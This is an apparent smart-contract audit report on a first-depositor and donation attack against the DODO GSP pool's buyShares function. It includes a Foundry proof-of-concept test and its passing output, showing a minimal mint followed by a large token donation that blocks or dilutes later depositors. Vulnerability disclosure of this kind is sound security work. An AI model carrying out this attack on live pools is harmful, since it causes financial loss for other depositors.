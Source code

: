 Ancient Raspberry Wallaby

high

# The protocol is vulnerable to first depositor issue and donation attack

## Summary
The protocol is vulnerable to the first depositor issue.

## Vulnerability Detail
`GSPFunding::buyShares` function has an if/else block that works depending on the total shares. The logic for the initial deposit and all deposits after that are different. The initial depositor can cause other users to mint unfair amount of shares or break share minting.

[https://github.com/sherlock-audit/2023-12-dodo-gsp/blob/main/dodo-gassaving-pool/contracts/GasSavingPool/impl/GSPFunding.sol#L56C1-L61C31](https://github.com/sherlock-audit/2023-12-dodo-gsp/blob/main/dodo-gassaving-pool/contracts/GasSavingPool/impl/GSPFunding.sol#L56C1-L61C31)

```solidity
file: GSPFunding
// function buy shares
    ... 
        if (totalSupply == 0) {
            // case 1. initial supply
            // The shares will be minted to user
            shares = quoteBalance < DecimalMath.mulFloor(baseBalance, _I_)
                ? DecimalMath.divFloor(quoteBalance, _I_)
                : baseBalance;
            // The target will be updated
            _BASE_TARGET_ = uint112(shares);
            _QUOTE_TARGET_ = uint112(DecimalMath.mulFloor(shares, _I_));
        } else if (baseReserve > 0 && quoteReserve > 0) {
            // case 2. normal case
            uint256 baseInputRatio = DecimalMath.divFloor(baseInput, baseReserve);
            uint256 quoteInputRatio = DecimalMath.divFloor(quoteInput, quoteReserve);
            uint256 mintRatio = quoteInputRatio < baseInputRatio ? quoteInputRatio : baseInputRatio;
            // The shares will be minted to user
            shares = DecimalMath.mulFloor(totalSupply, mintRatio);
    ...
```

The minimum share amount to mint is [1001](https://github.com/sherlock-audit/2023-12-dodo-gsp/blob/main/dodo-gassaving-pool/contracts/GasSavingPool/impl/GSPVault.sol#L295).

The first depositor can:

* Mint 1001 shares
    
* Donate huge amount of tokens by directly transferring them
    
* This will increase `baseReserve` and/or `quoteReserve`
    
* Other users will get less shares due to these shares being calculated compared to reserves.
### Coded PoC
You can use the protocol's own test suite to test this PoC.
-Copy and paste the snippet into the GSPFunding.t.sol test file
-Run it with `forge test --match-test test_firstDepositor --fork-url YOUR_KEY -vvv`

```solidity
function test_firstDepositor() public {
        // Transfer tokens to accounts
        vm.startPrank(DAI_WHALE);
        dai.transfer(USER, 150 ether);
        dai.transfer(OTHER, 150 ether);
        vm.stopPrank();
        vm.startPrank(USDC_WHALE);
        usdc.transfer(USER, 150 * 1e6);
        usdc.transfer(OTHER, 150 * 1e6);
        vm.stopPrank();

        // Mint with min amount first.
        vm.startPrank(USER);
        dai.transfer(address(gsp), 1001); //min amount
        usdc.transfer(address(gsp), 1); // quote balance is much more compared to base balance. -> Shares will be calculated based on base balance.
        gsp.buyShares(USER);
        assertEq(gsp.balanceOf(USER), 1001);

        // Donate directly and then call sync to update reserves.
        dai.transfer(address(gsp), 100 ether);
        gsp.sync();
        vm.stopPrank();

        // Another user tries to mint 10e18 worth of shares.
        // It will revert due to mint amount is not enough.        
        vm.startPrank(OTHER);
        dai.transfer(address(gsp), 10e18);
        usdc.transfer(address(gsp), 1e7);
        vm.expectRevert("MINT_AMOUNT_NOT_ENOUGH");
        gsp.buyShares(OTHER);

        // User can only mint if he/she sends more than the first depositor's donation amount.
        dai.transfer(address(gsp), 100e18);
        usdc.transfer(address(gsp), 1e8);
        gsp.buyShares(OTHER);
    }
```

Results after running the test:

```solidity
Running 1 test for test/GSPFunding.t.sol:TestGSPFunding
[PASS] test_firstDepositor() (gas: 367664)
Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 4.87s
 
Ran 1 test suites: 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

## Impact

- First depositor can cause other users to get less shares or break minting shares completely.

## Code Snippet
https://github.com/sherlock-audit/2023-12-dodo-gsp/blob/main/dodo-gassaving-pool/contracts/GasSavingPool/impl/GSPFunding.sol#L56C1-L71C67

## Tool used

Manual Review

## Recommendation
The protocol team may provide initial supply and mint some initial share to prevent this issue.